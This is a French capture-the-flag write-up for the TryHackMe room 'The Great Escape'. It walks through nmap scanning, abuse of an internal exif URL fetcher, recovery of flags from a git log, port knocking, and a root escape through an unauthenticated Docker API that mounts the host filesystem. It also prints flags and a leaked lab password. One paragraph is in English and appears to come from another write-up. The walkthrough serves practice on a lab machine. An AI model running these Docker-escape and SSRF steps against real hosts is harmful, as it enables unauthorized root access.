









# The Great Escape #

## Task 1 Introduction ##
## Task 2 A Simple Webapp ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.195.17 thegreatescape.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A thegreatescape.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-06 11:27 CEST
Nmap scan report for thegreatescape.thm (10.10.195.17)
Host is up (0.033s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh?
| fingerprint-strings: 
|   GenericLines: 
|_    0@;n`O:E,vW>WE~D+:{
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  http    nginx 1.19.6
| http-robots.txt: 3 disallowed entries 
|_/api/ /exif-util /*.bak.txt$
|_http-server-header: nginx/1.19.6
|_http-title: docker-escape-nuxt
|_http-trane-info: Problem with XML parsing of /evox/about
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port22-TCP:V=7.91%I=7%D=10/6%Time=615D6C38%P=x86_64-pc-linux-gnu%r(Gene
SF:ricLines,15,"0@;n`O:E,vW>WE~D\+:{\r\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/6%OT=22%CT=1%CU=35164%PV=Y%DS=2%DC=T%G=Y%TM=615D6CF
OS:4%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=104%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST1
OS:1NW7%O6=M506ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=3F%W=FAF0%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=3F%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=3F%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops

TRACEROUTE (using port 199/tcp)
HOP RTT      ADDRESS
1   31.93 ms 10.9.0.1
2   32.31 ms thegreatescape.thm (10.10.195.17)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 219.96 seconds

```

D'après le scan nmap on a deux services qui sont : 
Le service SSH sur le port 22.    
Le service HTTP sur le port 80.   

Sur le service HTTP, nmap nous confirme avoir trouvé un fichier robots.txt avec 3 entrée descativées.  
/api/ /exif-util /*.bak.txt$



Avec le lien /api/ on a pas grand chose, on nous dit d'avancer.    



Ici on a une entrée pour envoyer des fichiers images, on pourrait essayer de faire un reverse shell.   

On on découvre un autre lien qui est : /exif-util.bak.txt

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://thegreatescape.thm/exif-util.bak.txt
<template>
  <section>
    <div class="container">
      <h1 class="title">Exif Utils</h1>
      <section>
        <form @submit.prevent="submitUrl" name="submitUrl">
          <b-field grouped label="Enter a URL to an image">
            <b-input
              placeholder="http://..."
              expanded
              v-model="url"
            ></b-input>
            <b-button native-type="submit" type="is-dark">
              Submit
            </b-button>
          </b-field>
        </form>
      </section>
      <section v-if="hasResponse">
        <pre>
          {{ response }}
        </pre>
      </section>
    </div>
  </section>
</template>

<script>
export default {
  name: 'Exif Util',
  auth: false,
  data() {
    return {
      hasResponse: false,
      response: '',
      url: '',
    }
  },
  methods: {
    async submitUrl() {
      this.hasResponse = false
      console.log('Submitted URL')
      try {
        const response = await this.$axios.$get('http://api-dev-backup:8080/exif', {
          params: {
            url: this.url,
          },
        })
        this.hasResponse = true
        this.response = response
      } catch (err) {
        console.log(err)
        this.$buefy.notification.open({
          duration: 4000,
          message: 'Something bad happened, please verify that the URL is valid',
          type: 'is-danger',
          position: 'is-top',
          hasIcon: true,
        })
      }
    },
  },
}
</script>
```

Ici on a le code source qui permet de vérifier comment il récupère les informations de l'image.  
L'image est envoyer sur un lien qui est : http://api-dev-backup:8080/exif   
Le problème ici, c'est que avec nmap, on n'a pas trouvé le port 8080, donc cette adresse doit être interne.   

  

Avec le lien /api/exif on a un erreur différente.  

  

Quand on met le lien dur serveur interne avec un demande sur le lien on voit que la commande curl est exécuter en interne.   This gives us a password and a username that we can try. When I tried these credentials on the login page and ssh, they didnt work. SSH didn’t return any output so that’s another dead end. If you do an aggressive nmap scan on port 22, you’ll see that it marks ssh with a question mark meaning it’s not sure if it actually is ssh. Let’s check the root directory for anything else that could be useful.

  

Quand on essaie de lire le fichier passwd dans etc on a une réponse qu'il y a des mots qui sont banni.   

  

Quand on liste dans répertoire utilisateur on trouve un fichier dev-note.txt.   

  

On lit le fichier dev-note.txt.  
On trouve un mot de passe qui est : fluffybunnies123 et un nom qui est : Hydra   

Quand on voit le réponse sur le service SSH nmap il y a un point d'interrogation donc nmap n'est pas sur que c'est du SSH.  

  

Dans le note on nous dit que la flag a été effacé.   
On voit un dépot git donc on peu peut être trouver le flag.   

  

On regarde les logs.  
Et on voit qu'il y a un commit qui contient le flag.    

**There's a flag hidden by root on one of the machines. Can you find it?**

  

On regardant le depot avec l'option show de git on trouve le flag root qui : THM{0cb4b947043cb5c0486a454b75a10876}  

On trouve un autre message que l'on peut frapper plusieurs port qui sont : 42, 1337, 10420, 6969, et 63000.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ knock -v thegreatescape.thm 42 1337 10420 6969, 63000
hitting tcp 10.10.195.17:42
hitting tcp 10.10.195.17:1337
hitting tcp 10.10.195.17:10420
hitting tcp 10.10.195.17:6969
hitting tcp 10.10.195.17:63000
```

On tape sur les ports.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nmap -p- -v thegreatescape.thm
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-06 15:06 CEST
Initiating Ping Scan at 15:06
Scanning thegreatescape.thm (10.10.195.17) [2 ports]
Completed Ping Scan at 15:06, 0.03s elapsed (1 total hosts)
Initiating Connect Scan at 15:06
Scanning thegreatescape.thm (10.10.195.17) [65535 ports]
Discovered open port 80/tcp on 10.10.195.17
Discovered open port 22/tcp on 10.10.195.17
Discovered open port 2375/tcp on 10.10.195.17
Completed Connect Scan at 15:06, 18.47s elapsed (65535 total ports)
Nmap scan report for thegreatescape.thm (10.10.195.17)
Host is up (0.033s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
2375/tcp open  docker

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 18.59 seconds
```

On trouve un nouveau port ouvert qui est le service docker sur le port 2375.   

**Task 4 The Great Escape**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ docker -H tcp://thegreatescape.thm:2375 run -it --rm -v /:/mnt/root alpine:3.9
/ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
/ # cd /mnt/root/root
/mnt/root/root # ls
flag.txt
/mnt/root/root # cat flag.txt
Congrats, you found the real flag!

THM{c62517c0cad93ac93a92b1315a32d734}
```
On monte un image dans docker et on se connecte sur notre machine cible. 
On a les droits root.   
On peut lire le flag dans la machine cibe.  

Le flag est : THM{c62517c0cad93ac93a92b1315a32d734}   

**Simple webapp flag**

```bash
CONTAINER ID   IMAGE          COMMAND                  CREATED        STATUS       PORTS                  NAMES
49fe455a9681   frontend       "/docker-entrypoint.…"   9 months ago   Up 4 hours   0.0.0.0:80->80/tcp     dockerescapecompose_frontend_1
4b51f5742aad   exif-api-dev   "./application -Dqua…"   9 months ago   Up 4 hours                          dockerescapecompose_api-dev-backup_1
cb83912607b9   exif-api       "./application -Dqua…"   9 months ago   Up 4 hours   8080/tcp               dockerescapecompose_api_1
548b701caa56   endlessh       "/endlessh -v"           9 months ago   Up 4 hours   0.0.0.0:22->2222/tcp   dockerescapecompose_endlessh_1
```

On liste les images qui tournent sur le site web.  
L'image qui fait tourner le site est : dockerescapecompose_frontend_1   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ docker -H thegreatescape.thm:2375 exec -it dockerescapecompose_frontend_1 bash
root@docker-escape:/# id
uid=0(root) gid=0(root) groups=0(root)
root@docker-escape:/# cd /etc/nginx/
root@docker-escape:/etc/nginx# cd conf.d/
root@docker-escape:/etc/nginx/conf.d# cat default.conf 
limit_req_zone $binary_remote_addr zone=mylimit:1m rate=40r/m;

server {
    listen              80;
    server_name         docker-escape.thm;

    location /api/ {
        limit_req zone=mylimit;

        proxy_pass http://api:8080/;

        proxy_http_version 1.1;
        proxy_set_header Upgrade $http_upgrade;
        proxy_set_header Connection "Upgrade";
        proxy_set_header Host $host;
    }

    location / {
        limit_req zone=mylimit burst=18 delay=12;

        root /usr/share/nginx/html;
        try_files $uri $uri/ /index.html;
    }
}
root@docker-escape:/etc/nginx/conf.d# 
```

On se connecte avec session bash sur le frontend.   
Dans la configuration nginx on trouve le chemin du site web.   

```bash
root@docker-escape:/etc/nginx/conf.d# cd /usr/share/nginx/html/
root@docker-escape:/usr/share/nginx/html# ls -al
total 264
drwxr-xr-x 1 root root  4096 Jan  7  2021 .
drwxr-xr-x 1 root root  4096 Dec 15  2020 ..
-rw-rw-r-- 1 root root     0 Jan  6  2021 .nojekyll
drwxrwxr-x 2 root root  4096 Jan  6  2021 .well-known
-rw-rw-r-- 1 root root  3834 Jan  6  2021 200.html
-rw-r--r-- 1 root root   494 Dec 15  2020 50x.html
-rw-rw-r-- 1 root root   435 Jan  6  2021 README.md
drwxrwxr-x 4 root root  4096 Jan  6  2021 _nuxt
drwxrwxr-x 2 root root  4096 Jan  6  2021 admin
-rw-rw-r-- 1 root root  8139 Jan  6  2021 android-icon-144x144.png
-rw-rw-r-- 1 root root  9125 Jan  6  2021 android-icon-192x192.png
-rw-rw-r-- 1 root root  2329 Jan  6  2021 android-icon-36x36.png
-rw-rw-r-- 1 root root  2645 Jan  6  2021 android-icon-48x48.png
-rw-rw-r-- 1 root root  3753 Jan  6  2021 android-icon-72x72.png
-rw-rw-r-- 1 root root  5049 Jan  6  2021 android-icon-96x96.png
-rw-rw-r-- 1 root root  6042 Jan  6  2021 apple-icon-114x114.png
-rw-rw-r-- 1 root root  6483 Jan  6  2021 apple-icon-120x120.png
-rw-rw-r-- 1 root root  8139 Jan  6  2021 apple-icon-144x144.png
-rw-rw-r-- 1 root root  8790 Jan  6  2021 apple-icon-152x152.png
-rw-rw-r-- 1 root root 11228 Jan  6  2021 apple-icon-180x180.png
-rw-rw-r-- 1 root root  3070 Jan  6  2021 apple-icon-57x57.png
-rw-rw-r-- 1 root root  3127 Jan  6  2021 apple-icon-60x60.png
-rw-rw-r-- 1 root root  3753 Jan  6  2021 apple-icon-72x72.png
-rw-rw-r-- 1 root root  3980 Jan  6  2021 apple-icon-76x76.png
-rw-rw-r-- 1 root root  9699 Jan  6  2021 apple-icon-precomposed.png
-rw-rw-r-- 1 root root  9699 Jan  6  2021 apple-icon.png
-rw-rw-r-- 1 root root   281 Jan  6  2021 browserconfig.xml
drwxrwxr-x 2 root root  4096 Jan  6  2021 courses
drwxrwxr-x 2 root root  4096 Jan  6  2021 exif-util
-rw-rw-r-- 1 root root  1479 Jan  6  2021 exif-util.bak.txt
-rw-rw-r-- 1 root root  1383 Jan  6  2021 favicon-16x16.png
-rw-rw-r-- 1 root root  2159 Jan  6  2021 favicon-32x32.png
-rw-rw-r-- 1 root root  5049 Jan  6  2021 favicon-96x96.png
-rw-rw-r-- 1 root root  1150 Jan  6  2021 favicon.ico
-rw-rw-r-- 1 root root  3834 Jan  6  2021 index.html
drwxrwxr-x 2 root root  4096 Jan  6  2021 login
-rw-rw-r-- 1 root root   720 Jan  6  2021 manifest.json
-rw-rw-r-- 1 root root  8139 Jan  6  2021 ms-icon-144x144.png
-rw-rw-r-- 1 root root  8659 Jan  6  2021 ms-icon-150x150.png
-rw-rw-r-- 1 root root 27427 Jan  6  2021 ms-icon-310x310.png
-rw-rw-r-- 1 root root  3756 Jan  6  2021 ms-icon-70x70.png
-rw-rw-r-- 1 root root    84 Jan  7  2021 robots.txt
root@docker-escape:/usr/share/nginx/html# cd .well-known/
root@docker-escape:/usr/share/nginx/html/.well-known# ls
security.txt
root@docker-escape:/usr/share/nginx/html/.well-known# cat security.txt 
Hey you found me!

The security.txt file is made to help security researchers and ethical hackers to contact the company about security issues.

See https://securitytxt.org/ for more information.

Ping /api/fl46 with a HEAD request for a nifty treat.
```

Dans le répertoire ou se trouve le site on trouve un répertoire caché qui est .well-known.   
Il y un fichier security.txt avec un lien interéssant qui est : /api/fl46.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl --head http://thegreatescape.thm/api/fl46
HTTP/1.1 200 OK
Server: nginx/1.19.6
Date: Wed, 06 Oct 2021 13:34:45 GMT
Connection: keep-alive
flag: THM{b801135794bf1ed3a2aafaa44c2e5ad4}
```

On le test avec curl et on obtient notre flag.   

Le flag est : THM{b801135794bf1ed3a2aafaa44c2e5ad4}    